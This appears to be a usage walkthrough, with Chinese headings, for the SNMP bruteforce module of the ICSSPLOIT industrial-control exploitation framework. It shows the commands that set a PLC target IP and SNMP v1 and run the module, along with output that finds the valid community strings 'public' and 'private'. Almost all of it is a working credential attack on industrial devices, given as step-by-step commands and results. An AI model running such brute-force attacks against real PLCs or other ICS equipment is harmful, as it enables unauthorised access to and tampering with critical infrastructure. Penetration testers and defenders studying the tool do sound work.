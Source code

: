 # SNMP Bruteforece

# 使用SNMP Bruteforece module
    root@kali:~/Desktop/temp/isf# python isf.py
    
      _____ _____  _____ _____ _____  _      ____ _____ _______
     |_   _/ ____|/ ____/ ____|  __ \| |    / __ \_   _|__   __|
       | || |    | (___| (___ | |__) | |   | |  | || |    | |
       | || |     \___ \\___ \|  ___/| |   | |  | || |    | |
      _| || |____ ____) |___) | |    | |___| |__| || |_   | |
     |_____\_____|_____/_____/|_|    |______\____/_____|  |_|
    
    
                    ICS Exploitation Framework
    
    Note     : ICSSPOLIT is fork from routersploit at
               https://github.com/reverse-shell/routersploit
    Dev Team : wenzhe zhu(dark-lbp)
    Version  : 1.0
    
    Exploits: 2 Scanners: 0 Creds: 13
    
    ICS Exploits:
        PLC: 2          ICS Switch: 0
        Software: 0
    
    isf > search snmp
    creds/snmp_bruteforce
    isf > use creds/snmp_bruteforce
    isf (SNMP Bruteforce) >

    
# 设置目标参数
    isf (SNMP Bruteforce) > show options

    Target options:
    
       Name       Current settings     Description
       ----       ----------------     -----------
       target                          Target IP address or file with target:port (file://)
       port       161                  Target port
    
    
    Module options:
    
       Name                Current settings                                               Description
       ----                ----------------                                               -----------
       version             2                                                              Snmp version 1:v1, 2:v2c
       threads             8                                                              Number of threads
       stop_on_success     yes                                                            Stop on first valid community string
       verbosity           yes                                                            Display authentication attempts
       snmp                file:///root/Desktop/temp/isf/icssploit/wordlists/snmp.txt     Community string or file with community strings (file://)
    
    isf (SNMP Bruteforce) > set target 192.168.70.210
    [+] {'target': '192.168.70.210'}
    # 部分PLC设备只支持snmp v1版本
    isf (SNMP Bruteforce) > set version 1
    [+] {'version': '1'}

# 执行暴力破解
    isf (SNMP Bruteforce) > run
    [*] Running module...
    [*] worker-0 thread is starting...
    [*] worker-1 thread is starting...
    [*] worker-2 thread is starting...
    [*] worker-3 thread is starting...
    [*] worker-4 thread is starting...
    [*] worker-5 thread is starting...
    [*] worker-6 thread is starting...
    [*] worker-7 thread is starting...
    [+] Target: 192.168.70.210:161 worker-0: Valid community string found - String: 'public'
    [*] worker-0 thread is terminated.
    [*] worker-4 thread is terminated.
    [+] Target: 192.168.70.210:161 worker-1: Valid community string found - String: 'private'
    [*] worker-1 thread is terminated.
    [*] worker-6 thread is terminated.
    [*] worker-5 thread is terminated.
    [*] worker-7 thread is terminated.
    [-] Target: 192.168.70.210:161 worker-2: Invalid community string - String: 'wheel'
    [*] worker-2 thread is terminated.
    [-] Target: 192.168.70.210:161 worker-3: Invalid community string - String: '0'
    [*] worker-3 thread is terminated.
    [*] Elapsed time:  6.13672208786 seconds
    [+] Credentials found!
    
       Target             Port     Community Strings
       ------             ----     -----------------
       192.168.70.210     161      public
       192.168.70.210     161      private
    
    isf (SNMP Bruteforce) >